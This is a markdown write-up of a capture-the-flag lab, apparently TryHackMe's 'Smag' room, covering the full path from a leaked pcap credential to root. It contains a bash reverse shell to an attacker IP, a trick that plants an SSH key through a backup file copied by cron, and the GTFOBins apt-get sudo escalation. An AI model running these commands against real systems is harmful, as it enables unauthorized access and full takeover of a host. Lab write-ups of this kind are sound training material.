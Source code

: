 ## Info
### Credential
- helpdesk:cH4nG3M3_n0w
- trodd
- jack
- uzi
- netadmin

### Web
- `/mail/`
- `/login.php` 

### Pcap
- Web: `/login.php`
- Host: `development.smag.thm`


## Path
### User
1. Found `/mail/`, and give us a `.pcap`.
2. `.pcap` file reveal the hostname `development.smag.thm` and the credential `helpdesk:cH4nG3M3_n0w`
3. Add host and login at `/login.php`
```
$ cat /etc/hosts
...
# TryHackMe
10.10.51.21	development.smag.thm
```
4. The admin page shows it can execute command, but it doesn't return any result. So use `sleep 10;` to make sure it indeed executes commands.
5. Use admin page to get shell.
```
bash -c "bash -i >& /dev/tcp/10.9.5.135/13337 0>&1"; 
```
6. Found `.backups/jake_id_rsa.pub.backup`, and the crontab shows that the content of the backup file will be copied into Jake's `authorized_keys` every minute. We can put our own pub key in the backup file, then ssh as Jake.
```
# www-data
$ cat /etc/crontab
..
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
$ echo <pub key> >> jake_id_rsa.pub.backup

# local
$ ssh jake@$ip
$ whoami
jake
```
### Root
1. In `~/.viminfo`, we can see both of the user and root flags. (Unintended)
2. `sudo -l` found we can execute `apt-get`.
3. Use the command frmo GTFOBins to become root.
```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```



